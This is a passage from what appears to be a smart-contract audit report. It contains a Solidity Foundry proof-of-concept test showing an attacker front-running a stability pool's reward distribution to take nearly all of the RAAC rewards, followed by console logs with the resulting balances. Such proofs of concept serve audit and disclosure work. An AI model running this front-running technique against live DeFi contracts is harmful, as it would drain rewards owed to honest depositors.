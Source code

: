 ```Solidity
        crvusd.mint(user2, type(uint128).max);
        crvusd.mint(user3, type(uint128).max);
    }

    function test_PocFrontrunRewardDistro() public {
        /// Setting up staking users at a known block
        vm.roll(10);
        vm.startPrank(user1);
        crvusd.approve(address(lendingPool), type(uint128).max);
        rToken.approve(address(stabilityPool), type(uint128).max);
        lendingPool.deposit(20e18);
        assertEq(rToken.totalSupply(), 20e18);
        stabilityPool.deposit(20e18);
        vm.stopPrank();
        vm.startPrank(user2);
        crvusd.approve(address(lendingPool), type(uint128).max);
        rToken.approve(address(stabilityPool), type(uint128).max);
        lendingPool.deposit(20e18);
        stabilityPool.deposit(20e18);
        vm.stopPrank();
        /// Moving the block 1 year ahead so rewards will accumulate
        vm.roll(2628000);
        /// Executing the frontrun of user3
        vm.startPrank(user3);
        crvusd.approve(address(lendingPool), type(uint128).max);
        rToken.approve(address(stabilityPool), type(uint128).max);
        lendingPool.deposit(type(uint128).max);
        stabilityPool.deposit(type(uint128).max);
        stabilityPool.withdraw(type(uint128).max);
        vm.stopPrank();
        vm.prank(user1);
        stabilityPool.withdraw(20e18);
        vm.prank(user2);
        stabilityPool.withdraw(20e18);
        /// logging the users raac balances
        console.log("User 3 Frontrun Balance: ", raacToken.balanceOf(user3));
        console.log("User 1 Balance: ", raacToken.balanceOf(user1));
        console.log("User 2 Balance: ", raacToken.balanceOf(user2));
    }
}
```

Running above code produces the following console log:

```Solidity
Ran 1 test for test/invariant/PoC.t.sol:PoC
[PASS] test_PocFrontrunRewardDistro() (gas: 988216)
Logs:
  User 3 Frontrun Balance:  341548620034722221031593
  User 1 Balance:  20074
  User 2 Balance:  20075
```
